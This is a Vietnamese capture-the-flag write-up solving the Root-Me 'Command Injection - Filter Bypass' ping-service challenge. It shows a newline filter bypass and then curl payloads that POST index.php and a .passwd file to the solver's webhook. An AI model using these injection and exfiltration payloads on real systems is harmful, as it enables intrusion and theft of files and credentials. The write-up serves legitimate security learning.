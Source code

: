 # Command Injection - Filter Bypass

**Tên challenge:** Ping Service v2

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. Some protections were added. The flag is on the index.php file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng Ping duy nhất:

![alt text](image.png)

**B2:** Ta thử điền google.com vào thì Website trả về kết quả như sau:

![alt text](image-1.png)

Đến đây thì ta có thể hình dung Website sẽ lấy input ta nhập vào rồi thực hiện cú pháp ping đến input đó.

**VD:** ping input_nguoidung

`Lúc này, câu hỏi đặt ra là: "Liệu Website có xử lý đúng cách input của người dùng không ? Và liệu ta có thể lợi dụng chức năng này để kéo dài câu lệnh và khiến cho hệ thống thực thi Command theo ý mình không ?"`

**B3:** Để tìm ra câu trả lời thì ta sẽ thử payload input như sau: `google.com; ls -la`

* <u>**Giải thích:**</u> google.com là để kết hợp với lệnh ping của hệ thống, sau đó ta sẽ thêm `; ls -la` để thử xem liệu Website có thực thi câu lệnh được kéo dài này của ta không ?
* Nếu như giả thuyết của ta đúng thì cú pháp của hệ thống lúc này sẽ như sau: `ping google.com; ls -la`

![alt text](image-2.png)

=> Xem ra Website đã filter input người dùng để hạn chế việc bị tấn công Command Injection.

Nhưng ngoài dấu `;` để nối dài câu lệnh Command trong Linux thì ta còn có thể dùng các dấu khác với chức năng tương tự như: `$`, `\`, `||`, `&&`, xuống dòng (`%0a`)

**B4:** Ta tiếp tục thử các cách trên thì chỉ duy nhất payload: `google.com%0als` là thành công

**Lưu ý:** Payload trên phải được chỉnh sửa qua gói tin trên Burp-suite vì khi thực hiện thẳng trên trình duyệt có thể sẽ không thành công.

![alt text](image-3.png)

=> Từ đây, ta có thể kết luận trang web đã thực thi Command của ta.

Tuy nhiên, kết quả trả về lại chỉ là `Ping OK`. Vậy thì làm sao ta mới đọc được file `index.php` mà đề bài yêu cầu.

* **Trả lời:** Do Website đã filter hết những ký tự có thể nối dài câu Command và chỉ chừa `%0a` cho nên rất khó đề ta có thể mò từng kết quả của lệnh. Cho nên, ta chỉ có thể đẩy file `index.php` ra ngoài Webhook của ta thông qua lệnh **curl**.

**B5:** Ta thử sử dụng lệnh `curl https://webhook_cua_ta` để xem thử Website có cho gói tin ra ngoài không thông qua payload `google.com%0acurl+https://webhook_cua_ta`

![alt text](image-4.png)

=> Vậy là ta có thể `curl` đến Webhook của ta.

**B6:** Ta chỉ cần dùng lệnh **curl** để lấy file `index.php` đưa lên Webhook của ta thông qua payload `google.com%0Acurl+-X+POST+-F+"file=@./index.php"+https://webhook_cua_ta`

* **Giải thích:** `./index.php` nghĩa là lấy file `index.php` ở thư mục hiện tại. Nếu không có dấu `.` trước `/index.php` thì lệnh sẽ tìm file ở thư mục `/` và có thể gây ra lỗi.

Sau khi gửi gói tin đi, trên Webhook của ta sẽ nhận được file `index.php` và khi tải file đó về mở ra thì ta biết được `Flag` đang nằm ở file `.passwd` cùng với thư mục chứa file `index.php`

**B7:** Ta tiếp tục dùng lệnh curl trên và thay đổi thành file `.passwd`: `google.com%0Acurl+-X+POST+-F+"file=@./.passwd"+https://webhook_cua_ta`

=> Cuối cùng là đọc `Flag` thôi.
